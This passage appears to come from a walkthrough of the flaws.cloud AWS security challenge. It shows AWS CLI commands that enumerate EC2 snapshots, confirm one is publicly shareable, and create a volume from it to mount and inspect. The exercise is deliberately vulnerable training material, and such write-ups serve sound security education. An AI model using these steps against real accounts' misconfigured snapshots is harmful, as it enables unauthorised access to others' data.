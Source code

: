 Now we can see the snapshots under our user with the below command. The owner-id is the numeric value contained within the ARN that we saw in the output for the sts command. 
`aws ec2 describe-snapshots --owner-id 975426262029 --profile flawslevel3`

<p align="center"><a href="/images/flaws1-12.png"><img src="/images/flaws1-12.png"></a></p>

We can check the permissions on this snapshot with: 
`aws ec2 describe-snapshot-attribute --snapshot-id snap-0b49342abd1bdcb89 --attribute createVolumePermission --profile flawslevel3`

We can see that anyone can create a volume based on this snapshot!

We can now see a snapshot for our EC2 instance. Now we need to mount it so we can look inside. EC2 are essentially virtual machines. To mount it you will need to create your own EC2 machine, then mount the snapshot. 

First off we need to create an EC2 volume (kind of a hard drive) for us-west-2 with the snapshot-id of the public EC2 snapshot we found earlier. 
`aws ec2 create-volume --availability-zone us-west-2c --region us-west-2 --snapshot-id snap-0b49342abd1bdcb89`

<p align="center"><a href="/images/flaws1-13.png"><img src="/images/flaws1-13.png"></a></p>
